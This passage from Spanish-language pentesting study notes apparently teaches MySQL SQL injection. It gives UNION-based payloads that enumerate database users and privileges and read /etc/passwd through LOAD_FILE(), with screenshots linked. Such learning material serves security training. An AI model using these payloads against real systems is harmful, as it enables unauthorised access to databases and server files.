 ```
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```
```
cn' UNION SELECT 1, user(), 3, 4-- -
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/89098674-c101-47ed-a2cf-3089cb26499d)

### PRIVILEGIOS DE USUARIO

Ahora que sabemos el usuario en el que nos encontramos, podemos ver a empezar a ver que privilegios tiene cada usuario. Primero de todo, necesitaremos testear si tenemos privilegios de super usuario.

```
SELECT super_priv FROM mysql.user
```

Una vez, nosotros podemos meter el payload.
```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```
Si hay muchos usuarios podemos añadir "WHERE user="root" para ver ese solo.

```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

Si la consulta nos devuelve "Y" significa yes indicandonos que es asi

```
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

Podemos añadir 

```
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/9c8727e6-3991-4408-b3f6-6649d1cb2d37)

### EJECUTAR UN FICHERO

Ahoar que sabemos los privilegios que tenemos, podemos usar "LOAD_FILE()" usando MariaDB / MySQL para leer información de los ficheros. La funcion toma argumentos por ejemplo /etc/passwd

```
SELECT LOAD_FILE('/etc/passwd');
```

Es similiar pero con la injección "UNION"

```
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/5a3ad33b-2d59-4b54-8c92-2743ac7c6af9)
